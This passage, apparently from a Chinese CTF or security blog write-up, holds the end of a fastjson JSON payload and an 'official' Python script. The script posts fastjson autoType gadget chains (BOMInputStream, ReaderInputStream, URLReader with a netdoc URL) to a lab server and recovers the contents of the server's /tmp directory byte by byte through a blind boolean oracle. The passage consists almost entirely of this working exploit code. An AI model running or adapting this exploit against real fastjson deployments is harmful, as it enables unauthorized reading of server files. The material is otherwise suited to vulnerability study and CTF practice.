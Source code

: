 ```java
        }]
    },
    "address": {
        "$ref": "$.abc.BOM"
    }
}
```
最后的官方脚本如下：
```python
import requests
import os
import sys
import re
import string
 
host = "http://192.168.111.178:8080"
 
def step1():
    global host
    result = []
    def getArrayData(ch):
        out = []
        for c in result:
            out.append(str(ord(c)))
        out.append(str(ord(ch)))
        return ','.join(out)
    def poc(ch):
        url = '/hello'
        jsonstr = '{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"netdoc:///tmp/"},"charsetName":"utf-8","bufferSize":1024},"boms":[{"charsetName":"utf-8","bytes":[%s]}]},"address":{"$ref":"$.abc.BOM"}}'
        data = {
            'data': jsonstr % getArrayData(ch)
        }
        proxy = {'http':'127.0.0.1:8080'}
        proxy = {}
        rsp = requests.post(host+url, data=data, proxies=proxy)
        if "bytes" in rsp.text:
            return True
        else:
            return False
    while True:
        for ch in string.printable+'\r\n':
            if poc(ch):
                result.append(ch)
                print('step1>', ''.join(result))
                break
 
step1()
```
![](https://img-blog.csdnimg.cn/968b59d209b44275bf0c2e0d4d0ffd51.png)
